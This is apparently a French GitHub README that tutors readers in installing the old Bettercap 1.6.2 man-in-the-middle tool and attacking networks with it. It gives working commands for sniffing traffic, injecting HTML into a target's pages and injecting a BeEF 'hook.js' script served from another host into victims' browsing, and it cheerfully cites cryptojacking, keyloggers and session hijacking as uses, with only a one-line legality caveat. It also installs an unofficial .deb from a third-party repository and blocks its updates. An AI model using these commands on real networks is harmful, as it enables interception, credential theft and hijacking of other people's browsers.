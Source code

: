 # :heavy_check_mark: Bettercap 1.6.2
![alt text](https://www.bettercap.org/logo.png) </p>
Bettercap est un outils MITM multifonction, exemple : sniffing, injection ... </p>
:heavy_exclamation_mark: Cependant, sniffer un réseau qui n'est pas le votre est illégal. </p>
Dépendances à satisfaire => <b> ```apt-get install ruby libpcap-dev ruby-colorize ruby-em-proxy ruby-net-dns ruby-network-interface ruby-packetfu ruby-packetfu ```</b> </p>
Pour télécharger :<b> ```git clone https://github.com/satcomx00/bettercap_1.6.2-0parrot1_all``` </b> </p>
:heavy_check_mark: install => <b>```dpkg -i bettercap_1.6.2-0parrot1_all.deb```</b> </p>
Bettercap 1.6.2 est une ancienne version de Bettercap, la 1.6.2 est plus simple. </p> Or à chaque "<b>```apt-get update```</b>" le paquet se mettera à jour, mais nous ne voulons pas cela donc pour empêcher la MAJ du paquet on lance la commande suivante : <b>```sudo apt-mark hold bettercap```</b> </p>
:heavy_check_mark: Pour sniffer un réseau (MITM): ```bettercap -X ```</p>
Pour de l'aide : <b>```bettercap -h``` </b></p>

Qu'est-ce que l'<b>injection</b> ? 
L'injection permet de placer un morceau de code non voulus par la/les victime(s), </p>exemple : injecter du html pour afficher un image à chaque page chargé par la victime, ou encore du javaScript pour injecter des keyloggers. </p>Avec JavaScript les possibilitées d'attaques sont énormes (cryptojacking :ok_hand:, session hijacking ...). 
:heavy_check_mark:</p>
Pour faire de l'injection: </p><b>```bettercap -I (INTERFACE ex:wlan0) -T (TARGET_IP) --proxy-https --httpd --proxy-module injecthtml --html-file xxxxx.html```</b>  </p>
Injection de code unique (Beef ex) :</p> <b>```sudo bettercap -I wlan0 -G 172.51.1.1 -T 172.51.0.0/23 --proxy-module injectjs --js-url "http://172.51.1.91:3000/hook.js"```</b></p>
L'utilisation de <b>Caplets</b> rend bettercap puissant. </p>


Pour plus de détails voir le site officiel : https://www.bettercap.org/  </p>



